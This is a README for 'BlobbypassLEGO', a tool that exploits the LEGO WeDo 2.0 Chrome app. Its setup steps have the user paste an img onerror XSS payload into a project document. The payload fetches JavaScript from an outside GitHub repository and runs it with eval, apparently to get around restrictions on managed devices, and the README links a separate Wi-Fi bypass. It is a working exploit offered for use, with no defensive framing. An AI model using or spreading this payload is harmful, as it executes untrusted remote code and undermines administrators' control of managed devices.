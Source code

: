 # BlobbypassLEGO
## LEGO WeDo 2.0 Webview Exploit that uses BlobbypassXSS

### Setup:
* First, install [WeDo 2.0 LEGO® Education](https://chromewebstore.google.com/detail/wedo-20-lego%C2%AE-education/pflionopdgpjckjkafnlamfmonjhccdh?hl=en-US) from the Chrome Webstore.
* Wait until it loads, then turn off you wifi (not required but will make your life easier in the future since you wont have to paste the code in every time)
* Then, create a new project.
* Once you are in the project, click on the pencil in the top bar.
* Then, click the green document button.
* In the textbox, paste the following string:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Blobby-Boi/BlobbypassXSS/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```
* Close LEGO WeDo 2.0 and re-enable your WiFi

### How to use (after Setup):
* Open LEGO WeDo 2.0
* Click the project you made when you were setting this up
* Press the pencil icon
* Done!

  
#### This does not bypass Wi-Fi restrictions. If you want to do that, do [Blobwifi](https://blobby-boi.github.io/Blobwifi/).
